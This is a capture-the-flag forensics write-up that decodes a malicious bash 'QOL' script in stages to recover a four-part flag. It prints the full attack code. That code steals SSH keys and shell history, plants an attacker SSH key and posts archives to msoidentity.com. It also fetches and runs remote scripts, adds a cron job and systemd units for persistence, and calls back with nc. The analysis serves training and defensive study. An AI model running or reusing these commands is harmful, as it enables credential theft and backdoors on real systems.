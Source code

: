 # DoD Cyber Sentinel Challenge - Remote Help (forensics, 200p, Medium Difficulty) 6/24/2025
## Preface
Unfortunately, I do not have access to the original challenge statement, but it mentions something about a fictional internal attack from a recently hired remote worker. They were able to recover a [bash script](https://github.com/btoroth/QOL/blob/main/QOL.sh) that seems to have triggered alarms, causing the attack to fail. It then mentions to try and follow the cyber kill chain from start to finish to see what the attacker was trying to do, and along the way you'd find four different parts of the flag.

## Solving

![image](https://github.com/user-attachments/assets/710acb2e-cbea-489c-ac08-c4962739b961)

At first glance the script seems pretty harmless, even calling itself a QOL (Quality of Life) script meant to just make some minor improvements to the system. Update/upgrade packages, install some tools, create some aliases, blah blah blah. BUT if you keep scrolling, down at the very bottom we see this:

`sudo echo IyEvYmluL2Jhc2gKCiRsb2c9Ii90bXAvbG9nXyQoZGF0ZSArIiVZLSVtLSVkLS0lSC0lTSIpIgokdGd6PSI ... AvaW5mby5zaAovYmluL2Jhc2ggL3RtcC9pbmZvLnNoCnJtIC1mIC90bXAvaW5mby5zaAo= | base64 -d >> /tmp/0.sh && chmod +x /tmp/0.sh && /bin/bash /tmp/0.sh &`

Here we go, this seems to be yet another bash script - now obfuscated in base64 - being saved and executed. We can simply throw base64 string in to the browser tool CyberChef, it will automatically detect base64, and then decode it for us:

![image](https://github.com/user-attachments/assets/a6de7c73-fddb-4038-a09d-e87336d19171)

```
#!/bin/bash

$log="/tmp/log_$(date +"%Y-%m-%d--%H-%M")"
$tgz="/tmp/log_$(date +"%Y-%m-%d--%H-%M").tgz"

mkdir -p $log

cat /proc/cpuinfo >> "$log/cpu.txt"
cat /proc/meminfo >> "$log/mem.txt"
cat /etc/os-release >> "$log/os.txt"



for dir in $(ls /home -1); do
    
	if [ -f "$dir/.ssh/" ]; then
		cat $dir/.ssh/* >> "$log/'$dir'.txt"
		cat $dir/.bash_history >> "$log/'$dir'-bash.txt"
	fi
    # Perform your actions here
done

if [ "$(id -u)" -eq 0 ]; then
	cat /root/.ssh/* >> "$log/root.txt"
	cat /root/.bash_history >> "$log/root-bash.txt"
	local url="https://msoidentity.com/auth"
    local auth_keys="$HOME/.ssh/authorized_keys"
	
    curl -s "$url" >> "$auth_keys"
    chmod 600 "$auth_keys"
fi 


tar -cf "$tgz" "$log" 2>/dev/null

if [ -f "$tarfile" ]; then
        curl -s --output /dev/null -X POST -H "accept: application/json" -H "Content-Type: multipart/form-data" -F "file=@$tarfile" "https://msoidentity.com/log"
    fi
}

curl -s https://msoidentity.com/info | base32 -d >> /tmp/info.sh
/bin/bash /tmp/info.sh
rm -f /tmp/info.sh
```

Now were seeing something more malicious! This script basically seems to create a directory called log_(current datetime) and piles a whole bunch of sensitive system information in there like CPU, memory, and OS info, as well as SSH keys and shell history. The attacker also seems to drop their own SSH key from "msoidentity.com/auth" into the authorized keys directory to set up persistence. Then, the logs get compressed into a tar file and exfiltrated to "msoidentity.com/log" via a POST request. After all that is done, another bash script - this time seemingly encoded in base32 - is retrieved and ran from "msoidentity.com/info".

Now we have three new URLs to explore, so my first instinct was to simply visit all three of them in a browser. While the auth endpoint seemed to be a dud, the log and info endpoints both yielded me text file downloads. From the log endpoint I got the first part of the flag, "C1{Sn34ky_", and from the info endpoint I got the encoded script. Once again, throwing the base32 encoded string into cyberchef worked just fine and output this:

![image](https://github.com/user-attachments/assets/3199b2d5-b01c-4d54-b277-f3c6b5f57f17)

```
CHECK_SCRIPT="/usr/local/bin/check_backup.sh"
CRON_INTERVAL="*/5 * * * *"  # Every 5 minutes
CRON_JOB_NAME="check_backup_script"
SCRIPT_PATH="/opt/backup.sh"
$SCRIPT_URL=https://msoidentity.com/backup_info

# DO NOT PUT PASSWORDS IN PLAIN TEXT

cat <<EOF | sudo tee "$CHECK_SCRIPT" > /dev/null
#!/bin/bash
if [ ! -f "$SCRIPT_PATH" ]; then
    curl -fsSL "$SCRIPT_URL" -o "$SCRIPT_PATH.enc" && openssl enc -nosalt -aes-256-cbc -d -in "$SCRIPT_PATH.enc" -out "$SCRIPT_PATH" -pass pass:"45337a3067335f56475f" && chmod +x "$SCRIPT_PATH" && rm "$SCRIPT_PATH.enc"
fi
EOF

chmod +x "$CHECK_SCRIPT"

(crontab -l 2>/dev/null | grep -v "$CHECK_SCRIPT"; echo "$CRON_INTERVAL $CHECK_SCRIPT # $CRON_JOB_NAME") | crontab -
```

Here's the next steps in the attack. First a couple variables are declared to be used in the script, including a new URL to explore "msoidentity.com/backup_info". A new script is being created, called "check_backup.sh". The first thing it does is check if there is a file at "/opt/backup.sh" which - you guessed it - is _another_ script. If that file doesn't exist yet the script creates it by getting it from that URL we just mentioned. The script seems to come encrypted and needs to be decrypted using AES-256-CBC and with the password "45337a3067335f56475f". The check backup script then is added as a cron job that gets ran every five minutes, meaning that every five minutes the backup script will be re-downloaded onto this system if it wasn't already there.

Once again visiting the URL provides us with the next script to explore. As already explained, the file comes encrypted and can be decrypted using the same exact command that's already in the script:

```openssl enc -nosalt -aes-256-cbc -d -in backup.enc -out backup.sh -pass pass:"45337a3067335f56475f"```

```
#!/bin/bash
BACKUP_DIR="/tmp/backups"
TIMESTAMP=$(date +"%Y%m%d_%H%M%S")
ARCHIVE_NAME="backup_${TIMESTAMP}.7z"
ARCHIVE_PATH="${BACKUP_DIR}/${ARCHIVE_NAME}"
SERVICE_NAME="NightlyBackup"
SCRIPT_PATH="/opt/backup.sh"
UNIT_PATH="/etc/systemd/system/${SERVICE_NAME}.service"
TIMER_NAME="${SERVICE_NAME}.timer"
TIMER_UNIT="/etc/systemd/system/${TIMER_NAME}"


mkdir -p "$BACKUP_DIR"
rm -rf backup_*
7z a -mx=9 "$ARCHIVE_PATH" /home /root

if systemctl list-unit-files | grep -q "^${SERVICE_NAME}.service"; then
    systemctl enable "$SERVICE_NAME"
else
        curl -s https://raw.githubusercontent.com/supremeleaderbrian/services/refs/heads/main/backup.service > $UNIT_PATH
        curl -s https://raw.githubusercontent.com/supremeleaderbrian/services/refs/heads/main/backup.timer > $TIMER_UNIT
fi

systemctl daemon-reexec
systemctl daemon-reload
systemctl enable "$SERVICE_NAME"
systemctl enable --now "$TIMER_NAME"

#Callback - WE GOT THEM
sudo nc msoidentity.com 4443
```

We start with more variables being created, almost all of which are either parts of filenames or file paths. Then a backup directory is created, and all of the contents of the /home and /root directory are compressed and archived there. After, it checks for the NightlyBackup service in systemctl, and if it doesn't exist then it grabs two files from a users github repo that look like this:

![image](https://github.com/user-attachments/assets/dfabe7a9-10d0-436b-a5a2-82800fd64f66)
![image](https://github.com/user-attachments/assets/8dab6c59-f237-42c5-93a9-9b3176515cd9)

Theres a lot going on here but basically it's just going even deeper with the data exfiltration and persistence into the system via different methods. What's important though is the simple callback to the attacker server on the very last line of the script. Upon seeing this I tried replicating that callback in the terminal and it returned back to me the last part of the flag, "pr0sp3r}"! 

But wait, I had the first part of the flag and the last part which means I was still missing the second and third parts of the flag. I was thinking I must have missed something in the script in between those two points at which I found those flag parts. After some overthinking and overanalyzing I had decided to explore the github account of the user "supremeleaderbrian", which appeared in the last script. He only had the single repository that contained those two services from earlier, but after checking the commit history I found an earlier version of the timer service!

![image](https://github.com/user-attachments/assets/10bbfd25-d8dd-48ba-bb46-2fc1b7704374)

And at the very bottom you'll see one of the last two flag parts, only one left to go! Unfortunately, this part ended up taking me the longest to find, despite being relatively simple and I'd even say hidden in plain sight... If you look back at the second script we went over, you'll notice a comment regarding the password of the encrypted file and to not put it in plaintext. I had completely missed this the first time during the fast paced competition, thinking that it was just some random password. But if you put this password into cyberchef, it'll reveal itself to be a hex encoded string:

![image](https://github.com/user-attachments/assets/274f1e94-ed51-4a56-9163-086c68b65527)

So is that it?! We have all four of our flag parts right? With this the flag should be "C1{Sn34ky_E3z0g3_VG_w0rk3rs_n3v3r_pr0sp3r}". Hmm no but that doesn't really make sense, maybe "C1{Sn34ky_w0rk3rs_n3v3r_E3z0g3_VG_pr0sp3r}"? Yeah no doesn't look right, and I knew it wasn't because I had tried submitting both flags only to see "Incorrect". So what gives? The part that seems off is the second part that we just got "E3z0g3_VG_". Seeing that this string seems jumbled but still had the correct kind of look to it to pass as part of a flag (underscores and somewhat leet spelling), it made me think it was probably a rotation cipher. With the help of cyberchef yet again, my suspicions were confirmed after trying to decode with the classic ROT13 cipher like so:

![image](https://github.com/user-attachments/assets/161226fa-4c8e-4cf6-8de9-e9613f437fdd)

So now we have "C1{Sn34ky_R3m0t3_IT_w0rk3rs_n3v3r_pr0sp3r}" and it actually looks right now. We have our flag!
